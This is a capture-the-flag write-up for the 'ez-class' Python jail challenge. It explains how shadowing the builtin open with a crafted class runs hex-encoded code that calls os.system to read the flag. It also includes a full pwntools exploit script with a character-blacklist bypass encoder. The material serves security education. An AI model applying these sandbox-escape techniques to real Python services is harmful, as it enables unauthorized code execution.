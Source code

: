 # ez-class (misc, 375 points, 17 solves)

>This one is pretty ez
```shell
nc ezclass.bctf23-codelab.kctf.cloud 1337
```

This challenge, was my favorite. Thanks to the organizers for this wonderful CTF!

## Overview
This challenge talks about a service that gives us the possibility to create and run classes.
We can specify:
- The class name
- The parent class
- The mumber of methods
- The method names
- The method params
- The method bodies

There is no blacklist except for this little one here: `().\n`
We can run a class and also its dependencies. After executing the class, the service returns us an instance of the specified class.

## The first idea
How are we going to execute code if the only thing that gets done is loading the class and instantiating the object?

The first idea that came to my mind is to do some ✨**magic**✨ using [magic functions](https://www.tutorialsteacher.com/python/magic-methods-in-python).
There are so many! But a useful one is [`__new__`](https://www.pythontutorial.net/python-oop/python-__new__/):

>When you create an instance of a class, Python first calls the `__new__()` method to create the object and then calls the `__init__()` method to initialize the object’s attributes.

Using `__new__`, we can return some values and we can execute code, but we can't call functions yet.

Let's take a look at how the classes are loaded:
```python
def exec_class(filename, dependancies, class_name):
    for dep in dependancies:
        with open('/tmp/' + dep, 'r') as f:
            exec(f.read())

    with open('/tmp/' + filename, 'r') as f:
        exec(f.read())

    print('Here is an instance of your class')
    print(locals()[class_name]())
```

If we're able to override `read()` we can get RCE.

## It's time to get out of the pyjail!
We need to:
- Override the `open` function with a class
- Override the `read` with our custom method which needs to return the code to print the flag
- Profit

The class will look like this:
```python
class open(object):
    def __init__(filename,*args):
        pass

    def __enter__(self):
        return self

    def __exit__(*args):
        pass

    def read(self):
        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"
```

We also need to add `__enter__` and `__exit__` because they're automatically called by the `with` operator.
Inside the `read` method, we override the `open` function with our instance of the class `self` and then, we return the code to print the flag.

Now we can create this class inside the service and then run it.
The service will also ask us to specify the dependencies of the class to be executed, we put the class created before.

So the service will behave like this:
Here, we override the open function with our class:

```python
for dep in dependancies:
    with open('/tmp/' + dep, 'r') as f:
        exec(f.read())
```

Now that we've overridden the open function, the code passed above to print the flag will be executed here:
```python
with open('/tmp/' + filename, 'r') as f:
    exec(f.read())
```

The service will then crash at this instruction, but we don't care😈:
```python
print(locals()[class_name]())
```

## The exploit

```python
from pwn import remote

def create_class(p, classname, parent, functions):
    print(f"Creating class {classname}")
    p.sendline(b"1")
    p.sendline(classname.encode())
    p.sendline(parent.encode())
    p.sendline(f"{len(functions)}".encode())
    for function in functions:
        p.sendline(function["name"].encode())
        p.sendline(function["params"].encode())
        p.sendline(function["body"].encode())
    print("Done!")


def run_class(p, torun, dep):
    print(f"Running class {torun}")
    p.sendline(b"2")
    p.sendline(torun.encode())
    p.sendline(dep.encode())
    print("Done!")

def bypass_char_blacklist(code):
    result = ""
    for char in code:
        result += "\\x" + hex(ord(char))[2:].zfill(2)
    return result

clean_code = """
import os
os.system('cat /tmp/flag.txt')
"""

to_exec = bypass_char_blacklist(clean_code)

r = remote("ezclass.bctf23-codelab.kctf.cloud", 1337)

fake_open_classname = "open"
fake_open_parent = "object"
fake_open_functions = [
    {"name": "__init__", "params": "filename,*args", "body": "pass"},
    {"name": "__enter__", "params": "self", "body": "return self"},
    {"name": "__exit__", "params": "*args", "body": "pass"},
    {"name": "read", "params": "self", "body": f"global open;open=self;return \"{to_exec}\""}
]

create_class(r, fake_open_classname, fake_open_parent, fake_open_functions)
run_class(r, fake_open_classname, fake_open_classname)

r.interactive()
```

### Output:
**EZ!**

![EZ!](https://i.imgur.com/2BC2X35.png)

